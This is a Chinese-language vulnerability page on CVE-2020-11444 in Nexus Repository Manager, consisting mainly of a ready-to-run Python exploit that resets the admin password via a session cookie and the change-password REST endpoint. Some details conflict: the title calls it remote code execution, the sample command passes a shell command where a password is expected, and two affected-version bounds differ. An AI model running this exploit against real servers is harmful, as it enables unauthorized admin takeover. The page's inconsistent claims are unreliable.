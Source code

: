 （CVE-2020-11444）Nexus Repository Manager 远程代码执行漏洞
===========================================================

一、漏洞简介
------------

该漏洞源于不正确的访问控制。攻击者可借助特制的请求利用该漏洞绕过访问限制。

二、漏洞影响
------------

Nexus Repository Manager 3.x版本至3.21.2版本

三、复现过程
------------

    cve-2020-11444_exp.py
    python3 cve-2020-11444_exp.py http://www.0-sec.org:8081 "sessionID" "touch /tmp/233"
    #!/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author:zhzyker
    # from:https://github.com/zhzyker/exphub

    import sys
    import requests

    if len(sys.argv)!=4:
        print('+-----------------------------------------------------------------------------------------------+')
        print('+ DES: by zhzyker as https://github.com/zhzyker/exphub                                          +')
        print('+      CVE-2020-11444 Nexus 3 Unauthorized Vuln (change admin password                          +')
        print('+-----------------------------------------------------------------------------------------------+')
        print('+ USE: python3 <filename> <url> <session> <password>                                            +')
        print('+ EXP: python3 cve-2020-11444_exp.py http://ip:8081 6c012a5e-88d9-4f96-a05f-3790294dc49a 123456 +')
        print('+ VER: Nexus Repository Manager 3.x OSS / Pro <= 3.21.1                                         +')
        print('+-----------------------------------------------------------------------------------------------+')
        sys.exit(0)

    url = sys.argv[1]
    vuln_url = url + "/service/rest/beta/security/users/admin/change-password"
    session = sys.argv[2]
    password = sys.argv[3]

    headers = {
        'accept': "application/json",
        'User-Agent': "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36",
        'NX-ANTI-CSRF-TOKEN': "0.6080434247960143",
        'Content-Type': "text/plain",
        'Origin': "http://127.0.0.1:8081",
        'Cookie': "NX-ANTI-CSRF-TOKEN=0.6080434247960143; NXSESSIONID="+session+""
    }
    data = """%s""" % password

    r = requests.request('PUT', url=vuln_url, headers=headers, data=data)
    if r.status_code == 204:
        print ("[+] Passowrd Change Success")
        print ("[+] " + url)
        print ("[+] Username:admin Passowrd:"+password+"")
    else:
        print ("[-] SessionID Not available")
        print ("[-] Target Not CVE-2020-11444 Vuln Good Luck")
        sys.exit(0)

参考链接
--------

> https://github.com/zhzyker/exphub/blob/master/nexus/cve-2020-11444\_exp.py

